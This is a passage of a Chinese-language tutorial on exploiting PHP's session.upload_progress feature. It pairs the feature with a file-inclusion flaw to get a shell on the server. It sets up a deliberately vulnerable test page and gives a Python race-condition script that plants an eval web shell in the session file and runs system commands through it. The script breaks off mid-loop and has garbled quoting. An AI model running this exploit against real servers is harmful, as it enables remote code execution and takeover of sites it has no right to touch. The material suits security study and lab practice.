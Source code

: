 5、`session.upload_progress.cleanup`：一旦读取了所有POST数据，就会清除进度信息 (即上传完成)，与下面要讲的`session.upload_progress.enabled`息息相关。

6、 `session.upload_progress.enabled`:在`$_SESSION`中启用上传进度跟踪,默认开启。

7、 `session.upload_progress.freq`:上传进度应该如何更新。给定以百分比（每个文件）或以字节为单位。

8、`session.upload_progress.min_freq`:更新之间的最小延迟（以秒为单位）。

9、`session.upload_progress.name`:包含上传进度信息的`$_SESSION`中的索引名称(与前缀连接)。当它出现在表单中，php将会报告上传进度，它的值可控；

10、 `session.upload_progress.prefix`:`$_SESSION`用于上传进度的前缀。

在`session.upload_progress.enabled`开启时，当向目标php应用上传文件时，会将文件信息写入session文件（当然前提是目标php启动了session会话，即代码中有session_start()或者session.auto_start配置项为1），由于`session.upload_progress.name`可控(其实上传文件名也是可控的可利用的），就可以向session文件写入恶意代码，如果存在文件包含漏洞，则可以getshell（不过由于`session.upload_progress.cleanup`默认开启，即上传结束我们的恶意代码就会被清除，所以还要利用条件竞态或者自包含崩溃）。

测试环境：<br>
目标网站文件结构：

```
/var/www/html/
|-- index.php
|   
    |-- upload
    |       |-- test.php
    |       |-- .htaccess
```

index.php内容任意<br>
test.php中内容如下：

```
include($_GET[file]);
```

.htaccess中内容如下(注意要使`.htaccess`生效，apache需要开启rewrite模块)：

```
php_value session.auto_start 1
```

session文件存储路径:`/var/lib/php/sessions/`

利用脚本：

```
#coding:utf-8

import io
import requests
import threading

sessid = 'helloworld'
data = `{`"cmd":"system('whoami');"`}`

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://target.com/upload/test.php',data=`{`'PHP_SESSION_UPLOAD_PROGRESS':'&lt;?php eval($_POST[cmd]);?&gt;'`}`,files=`{`'file':('test.txt',f)`}`,cookies=`{`'PHPSESSID':sessid`}`)

def read(session):
    while True:
        resp = session.post('http://target.com/upload/test.php?file=/var/lib/php/sessions/sess_' + sessid,data=data,cookies=`{`'PHPSESSID':sessid`}`)
        if 'test.txt' in resp.text:
            print(resp.text)
            break
        else:
```